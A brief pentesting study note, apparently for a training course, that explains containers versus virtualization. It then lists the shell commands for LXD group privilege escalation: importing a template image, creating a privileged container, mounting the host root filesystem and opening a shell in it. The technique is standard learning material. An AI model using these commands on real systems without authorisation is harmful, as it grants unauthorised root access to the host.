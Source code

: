 Containers: share an operating system and isolate application processes from the rest of the system
Virtualization: allows multiple operating systems to run simultaneously on a single system

LXC - Linux Containers
- Application container

LXD - Linux Daemon
- System container (contains entire operating system)

**Check if part of lxc or lxd group
```shell-session
id
```
- We can either create our own container and transfer it to target or use an existing container

```shell-session
cd ContainerImages
ls
```
- Such templates (ubuntu-template.tar.xz) often do not have passwords

**Import container as an image
```shell-session
lxc image import ubuntu-template.tar.xz --alias ubuntutemp
lxc image list
```

**Initiate and Configure image
```shell-session
lxc init ubuntutemp privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

**Start container
```shell-session
lxc start privesc
lxc exec privesc /bin/sh
ls -l /mnt/root
```
